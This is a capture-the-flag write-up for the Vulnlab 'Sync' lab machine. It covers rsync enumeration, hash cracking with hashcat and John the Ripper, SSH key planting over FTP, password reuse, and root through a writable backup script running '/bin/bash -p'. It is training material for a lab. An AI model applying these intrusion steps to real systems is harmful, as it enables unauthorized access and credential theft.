






+++
title = 'Vulnlab :: Sync Writeup'
date = 2025-01-15T12:02:13+01:00

draft = false

summary = 'Vulnlab :: Sync Writeup'

categories = ["vulnlab", "ctf", "misconfigurations"]

tags = ["exegol", "nmap", "linux", "ctf", "hashcat", "john-the-ripper", "pwncat-cs", "misconfigurations", "rsync", "php", "sqlite", "ftp", "ssh"]
+++


## Enumeration

### Nmap scan

I start with a standard scan using nmap

```
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-02 18:11 CET
Nmap scan report for 10.10.95.205
Host is up (0.036s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 5840f1968f678e470e7ee41c1128949c (ECDSA)
|_  256 4b59e4b26397e5142d4df8d8c913ca2c (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Login
|_http-server-header: Apache/2.4.52 (Ubuntu)
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

## Rsync

```sh
rsync -av --list-only rsync://10.10.95.205/
```

```sh
rsync -av --list-only rsync://10.10.95.205/httpd
```



The machine has an exposed rsync, which contains a application backup

```sh
rsync -av rsync://10.10.95.205/httpd ./httpd
```

## App

### PHP

In the PHP code, there is a secret and the logic that creates the hashes


### Database


In the database, there are the hashes of 2 users

### hashcat



Using Hashcat, I managed to crack the hash of the password for the user `triss`




## FTP

### FTP access


We cannot log in to SSH with the obtained password because key-based login is set, but we can log in to the FTP server


### SSH key upload



The FTP server's directory is the home directory of the user `triss`, which in this case allows for the upload of our public key

```sh
cp ./.ssh/id_rsa.pub /workspace/
```

```sh
cat id_rsa.pub > authorized_keys
```




```sh
ssh triss@10.10.95.205 -i id_rsa
```

Logging in using the public key is now possible

## Privilege escalation

### Guessing


In the user's directory, we do not find the user flag, but there is a small reference to "The Witcher" by Andrzej Sapkowski in the task, which makes it easy to guess that the password for the user `jennifer` is the same as for `triss`

At this point, we have obtained the user flag!

### /backup



After using LinPEAS, I went to the /backup directory


### John The Ripper

```sh
unshadow passwd shadow > hash.txt
```

```sh
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=crypt
```

From the backup, we manage to obtain the password for the user `sa`

### backup.sh


```sh
#!/bin/bash

mkdir -p /tmp/backup
cp -r /opt/httpd /tmp/backup
cp /etc/passwd /tmp/backup
cp /etc/shadow /tmp/backup
cp /etc/rsyncd.conf /tmp/backup
zip -r /backup/$(date +%s).zip /tmp/backup
rm -rf /tmp/backup
```

After using LinPEAS again, we discover a backup script that is owned by the user `sa`


```sh
/bin/bash -p
```

After modifying the content of the script and executing it, I can gain access as `root`
